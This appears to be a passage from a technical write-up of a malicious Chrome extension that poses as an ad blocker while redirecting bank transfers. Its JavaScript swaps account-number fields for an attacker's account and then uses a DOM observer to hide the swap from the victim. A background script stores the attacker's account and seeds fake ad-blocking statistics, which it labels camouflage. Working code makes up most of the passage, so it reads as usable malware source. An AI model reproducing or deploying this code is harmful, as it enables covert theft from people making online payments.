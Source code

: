 ```javascript
    accountFields.forEach(field => {
      if (field.value) {
        field.setAttribute('data-original-account', field.value);
        field.value = attackerAccountNumber;
      }
    });
  });
  
  // 3. Restore original number in the interface
  const observer = new MutationObserver(function(mutations) {
    document.querySelectorAll('*').forEach(element => {
      if (element.textContent && 
          element.textContent.includes(attackerAccountNumber)) {
        
        if (originalAccountNumber) {
          element.textContent = element.textContent.replace(
            attackerAccountNumber, 
            originalAccountNumber
          );
        }
      }
    });
  });
  
  // Start DOM observer
  observer.observe(document.body, {
    childList: true,
    subtree: true,
    characterData: true
  });
}
```

### Background Script

The `background.js` script runs in the background at all times, regardless of the active tab. Its tasks include:

1. **Settings initialization** - setting default values upon installation
2. **Configuration management** - storing and updating the attacker's account number
3. **Ad blocker simulation** - updating "blocked ads" statistics
4. **Communication handling** - data exchange between the interface and content script

Example from `background.js`:

```javascript
// Configuration initialization upon installation
chrome.runtime.onInstalled.addListener(function() {
  // Default configuration
  chrome.storage.sync.set({
    bankConfig: {
      targetAccountNumber: "12345678901234567890123456", // Target account number
      isActive: true, // Active by default
      domains: [] // Optionally limit to specific domains
    }
  });
  
  // Ad blocker statistics initialization (camouflage)
  chrome.storage.local.set({
    adStats: {
      blockedAds: 1245, // Starting number for realism
      blockedTrackers: 87,
      lastReset: new Date().getTime()
    }
  });
```